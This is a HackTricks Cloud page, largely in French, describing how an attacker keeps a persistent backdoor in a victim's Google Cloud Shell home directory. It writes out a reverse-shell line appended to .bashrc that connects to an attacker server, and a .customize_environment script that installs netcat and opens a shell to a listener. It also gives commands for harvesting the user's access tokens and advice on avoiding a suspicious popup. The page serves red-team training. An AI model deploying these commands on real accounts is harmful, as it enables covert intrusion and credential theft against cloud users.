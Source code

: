 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Pour plus d'informations, consultez :

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Backdoor Persistante

[**Google Cloud Shell**](https://cloud.google.com/shell/) vous fournit un accès en ligne de commande à vos ressources cloud directement depuis votre navigateur sans aucun coût associé.

Vous pouvez accéder à Cloud Shell de Google depuis la **console web** ou en exécutant **`gcloud cloud-shell ssh`**.

Cette console a des capacités intéressantes pour les attaquants :

1. **Tout utilisateur Google ayant accès à Google Cloud** a accès à une instance Cloud Shell entièrement authentifiée (les comptes de service peuvent, même en étant propriétaires de l'organisation).
2. Cette instance **maintiendra son répertoire personnel pendant au moins 120 jours** s'il n'y a pas d'activité.
3. Il n'y a **aucune capacité pour une organisation de surveiller** l'activité de cette instance.

Cela signifie essentiellement qu'un attaquant peut placer une backdoor dans le répertoire personnel de l'utilisateur et tant que l'utilisateur se connecte au GC Shell au moins tous les 120 jours, la backdoor survivra et l'attaquant obtiendra un shell chaque fois qu'il sera exécuté simplement en faisant :

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Il y a un autre fichier dans le dossier personnel appelé **`.customize_environment`** qui, s'il existe, sera **exécuté à chaque fois** que l'utilisateur accède au **cloud shell** (comme dans la technique précédente). Il suffit d'insérer la porte dérobée précédente ou une comme celle-ci pour maintenir la persistance tant que l'utilisateur utilise "fréquemment" le cloud shell :
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Il est important de noter que la **première fois qu'une action nécessitant une authentification est effectuée**, une fenêtre d'autorisation contextuelle apparaît dans le navigateur de l'utilisateur. Cette fenêtre doit être acceptée avant que la commande puisse s'exécuter. Si une fenêtre contextuelle inattendue apparaît, cela pourrait susciter des soupçons et potentiellement compromettre la méthode de persistance utilisée.
{% endhint %}

Ceci est la fenêtre contextuelle résultant de l'exécution de `gcloud projects list` depuis le cloud shell (en tant qu'attaquant) vue dans la session utilisateur du navigateur :

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Cependant, si l'utilisateur a activement utilisé le cloudshell, la fenêtre contextuelle n'apparaîtra pas et vous pouvez **rassembler les tokens de l'utilisateur avec** :
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Comment la connexion SSH est établie

Fondamentalement, ces 3 appels API sont utilisés :

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (vous fera ajouter votre clé publique que vous avez créée localement)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (vous fera démarrer l'instance)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (vous indiquera l'IP du google cloud shell)

Mais vous pouvez trouver plus d'informations dans [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Références

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
